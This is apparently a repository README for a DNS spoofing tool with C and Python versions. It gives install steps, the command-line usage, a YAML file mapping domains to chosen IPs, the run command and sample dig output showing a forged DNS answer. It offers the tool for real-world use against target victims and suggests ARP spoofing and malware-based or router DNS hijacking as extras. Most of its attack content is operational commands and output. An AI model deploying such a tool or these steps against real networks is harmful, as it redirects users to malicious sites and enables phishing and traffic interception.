 # DNS-Spoofing

**DNS** stands for **D**omain **N**ame **S**ystem and the main purpose of DNS is to translate Domain Names to IP addresses. **DNS spoofing** refers to an attack that modifies the DNS records returned to the querier. This can be achieved with different techniques such as DNS Hijacking or DNS cache poisoning. The purpose of the attack is to redirect users to malicious websites instead of legitimate website.

This repository consists of DNS spoofing application which does some type of DNS Hijacking with Man-In-The-Middle attack which intercepts the DNS queries in the network and sends out the spoofed DNS responses with user-defined IP addresses. The same application is implemented in two programmig languages, *C* and *Python*, and they work independantly. Choose one implementation that suits your requirement.

**Note:** 
- To utilize this application in real-world, the application should have access to sniff the packets in the network. Otherwise [ARP spoofing](https://en.wikipedia.org/wiki/ARP_spoofing) is required before utilizing this application. 

- Additional DNS Hijacking techniques to explore includes **Local DNS Hijack** using malware/Trojan on user's computer, **Router DNS Hijack** in which the attacker gets hold of Router and modifies the DNS settings. 

## Python

**Version** `Python3`

**Requirements**
```shell
pip3 install -r requirements.txt
```
**Usage**
```
$ sudo python3 dns_spoofer.py --help

usage: dns_spoofer.py [-h] -f FILE -i INTERFACE [-l LOCAL_IP] [-t TARGET_VICTIMS]

This is a DNS Spoofing application

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  Input file in YAML format with website names and corresponding IP address to be returned in DNS response
  -i INTERFACE, --interface INTERFACE
                        Ethernet Interface on which to sniff DNS packets
  -l LOCAL_IP, --local_ip LOCAL_IP
                        Provide local IP to prevent self-spoofing. If not provided ip route cmd will be executed to grep local_ip
  -t TARGET_VICTIMS, --target_victims TARGET_VICTIMS
                        List of "," separated IP addresses to target for DNS spoofing
```

**Input File**
```yaml
www.foo.com: 1.1.1.1
www.bar.com: 2.2.2.2
```

**Execution**
```shell
sudo python3 dns_spoofer.py -i <interface-name> -f spoof_input.yaml
```

**Workflow Output**

1. DNS Request from X.X.X.X to Y.Y.Y.Y using *dig* command
```shell
dig @Y.Y.Y.Y www.foo.com
```

2. Application sniffs DNS query and sends out Spoofed DNS response to querier X.X.X.X 
```shell
Spoofing: www.foo.com.
Spoofed DNS Response Sent: X.X.X.X
```

3. DNS response received by X.X.X.X
```
; <<>> DiG 9.10.6 <<>> @Y.Y.Y.Y www.foo.com
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 44034
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;www.foo.com.			IN	A

;; ANSWER SECTION:
www.foo.com.		255	IN	A	1.1.1.1

;; Query time: 120 msec
;; SERVER: Y.Y.Y.Y#53(Y.Y.Y.Y)
;; WHEN: Sun Aug 02 16:22:38 PDT 2020
;; MSG SIZE  rcvd: 56
```
